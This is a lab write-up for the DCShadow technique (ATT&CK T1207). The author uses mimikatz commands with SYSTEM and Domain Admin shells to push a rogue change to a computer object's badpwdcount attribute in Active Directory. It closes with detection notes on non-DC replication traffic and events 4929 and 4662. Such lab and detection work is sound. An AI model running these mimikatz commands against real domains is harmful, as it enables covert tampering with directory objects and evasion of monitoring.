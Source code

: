 ```yaml
---
description: Defense Evasion
---
```


# T1207: DCShadow

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required, one running with `SYSTEM` privileges and another one is a domain member that is in `Domain admins` group:

![](../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell. Note the `badpwcount` property which we will try to change with DCShadow:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../.gitbook/assets/dcshadow-computer-properties.png)

Let's change the value to 9999:

{% code-tabs %}
{% code-tabs-item title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode-tabs-item %}
{% endcode-tabs %}

and push the changes to the primary Domain Controller `DC-MANTVYDAS`:

{% code-tabs %}
{% code-tabs-item title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below are the screenshots of the above commands and their outputs as well as the result, indicating the `badpwcount`value getting changed to 9999:

![](../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect the rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:

![](../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else was happening on that non-DC system:

![](../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates the new DC and deletes its associated objects when the push is complete in a quick succession and this pattern could be used to trigger an alert, since creation of a new DC and its deletion in one seconds sounds anomalous. Events `4662` may be helpful for this:

![](../.gitbook/assets/dcshadow-createobject.png)

![](../.gitbook/assets/dcshadow-delete1.png)

![](../.gitbook/assets/dcshadow-delete2.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1207\",\"type\":\"link\",\"title\":\"DCShadow - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=KILnU4FhQbc\",\"type\":\"video\",\"title\":\"BlueHat IL 2018 - Vincent Le Toux & Benjamin Delpy - What Can Make Your Million Dollar SIEM Go Blind\",\"description\":\"Active Directory: What Can Make Your Million Dollar SIEM Go Blind?\\n\\nActive Directory is a key element for security and is a primary target in most of the common attacks today. There are also many tools used to ensure its protection. In large companies where there have been millions of dollars of investment in security, it appears that the logical choice to provide security monitoring of Active Directory is by using the company SIEM tool. Even if the chances of detecting a golden ticket are low, the logs processed by the SIEM can help track any object changes and can raise an alert in case of a suspicious modification to a privileged account.\\nWith Benjamin Delpy the mimikatz author in a guest appearance, this talk focuses on two topics: \\nHow an attacker can have more insight into your domains than you and how the attacker can also exploit distant domains, while being undetected by your SIEM\\nHow the new mimikatz attack \\\"DCShadow\\\", by transforming a compromised workstation into a DC, can push changes that are unseen by your SIEM.\\n\\nWhile post incident response handlers can use replication metadata to build the attack history, the DCShadow attack will demonstrate that this replication metadata can no longer be trusted and how the technical specification of the AD \(MS-ADTS\) can be bypassed in most cases. An example is, instead of gathering the krbtgt hash via DCSync, you can push your own secret. \\n\\nSpeaker Bio:\\nVincent LE TOUX, 37 years old, French Security Manager in a large company SOC / CSIRT / SECOPS manager / AD expert CEO of My Smart Logon - smart card logon \(www.mysmartlogon.com\) Author of Ping Castle - an AD security tool \(www.pingcastle.com\) Contributions in Mimikatz Many open source contributions \(OpenPGP, OpenSC, GIDS applet, ...\) Presenter in many conferences including FIRST \(Puerto Rico, 2017\) & in France.\\n\\nGuest Speaker:\\nBenjamin Delpy, is a Security Researcher known as \`gentilkiwi\`. A Security enthusiast, he publishes tools and articles that speak about products’ weaknesses and prove some of his ideas. Mimikatz was the first software he developed that reached an international audience. It is now recognized as a Windows security audit tool. He previously spoke at PHDays, ASFWS, StHack, BlackHat, BlueHat US and many more.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/KILnU4FhQbc/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/KILnU4FhQbc?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/KILnU4FhQbc?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"http://www.labofapenetrationtester.com/2018/04/dcshadow.html\",\"type\":\"link\",\"title\":\"DCShadow - Minimal permissions, Active Directory Deception, Shadowception and more\",\"description\":\"Home of Nikhil SamratAshok Mittal. Posts about Red Teaming, Offensive PowerShell, Active Directory and Pen Testing.\",\"icon\":{\"type\":\"icon\",\"url\":\"http://www.labofapenetrationtester.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://1.bp.blogspot.com/-RHibpt8TT28/WsHCN-6Nb8I/AAAAAAAAEjA/fif\_yx9\_rNU2bkHa7e\_T5EzG3IaRMa5LgCLcBGAs/w1200-h630-p-k-no-nu/mimikatz\_SYSTEM.png\",\"width\":1141,\"height\":599,\"aspectRatio\":0.5249780893952674}}" %}

